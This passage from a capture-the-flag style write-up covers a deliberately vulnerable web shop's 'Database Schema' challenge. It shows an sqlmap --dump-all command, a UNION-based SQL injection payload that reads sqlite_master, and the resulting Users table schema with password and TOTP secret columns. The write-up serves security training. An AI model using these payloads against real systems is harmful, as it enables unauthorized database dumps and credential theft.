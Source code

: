 This allowed us to try more exotic search strings, looking for possible vulnerabilities.

Using sqlmap:

```bash
sqlmap -u "http://localhost:3000/rest/products/search?q=1" --dump-all --batch
```

We arrived at the following payload, allowing us to dump the entire database schema:

```
qwert')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--
```

![img_19.png](images/img_17.png)

With this, we solved the challenge "Database Schema".
This is another known vulnerability: CWE-89: Improper Neutralization of Special Elements used in an SQL Command
('SQL Injection').

### Inspecting the database schema

We analyzed the database schema, and found the following interesting tables:

```sql
CREATE TABLE `PrivacyRequests`
(
    `id`                INTEGER PRIMARY KEY AUTOINCREMENT,
    `UserId`            INTEGER REFERENCES `Users` (`id`) ON DELETE NO ACTION ON UPDATE CASCADE,
    `deletionRequested` TINYINT(1) DEFAULT 0,
    `createdAt`         DATETIME NOT NULL,
    `updatedAt`         DATETIME NOT NULL
);


CREATE TABLE `Users`
(
    `id`           INTEGER PRIMARY KEY AUTOINCREMENT,
    `username`     VARCHAR(255) DEFAULT '',
    `email`        VARCHAR(255) UNIQUE,
    `password`     VARCHAR(255),
    `role`         VARCHAR(255) DEFAULT 'customer',
    `deluxeToken`  VARCHAR(255) DEFAULT '',
    `lastLoginIp`  VARCHAR(255) DEFAULT '0.0.0.0',
    `profileImage` VARCHAR(255) DEFAULT '/assets/public/images/uploads/default.svg',
    `totpSecret`   VARCHAR(255) DEFAULT '',
    `isActive`     TINYINT(1) DEFAULT 1,
    `createdAt`    DATETIME NOT NULL,
```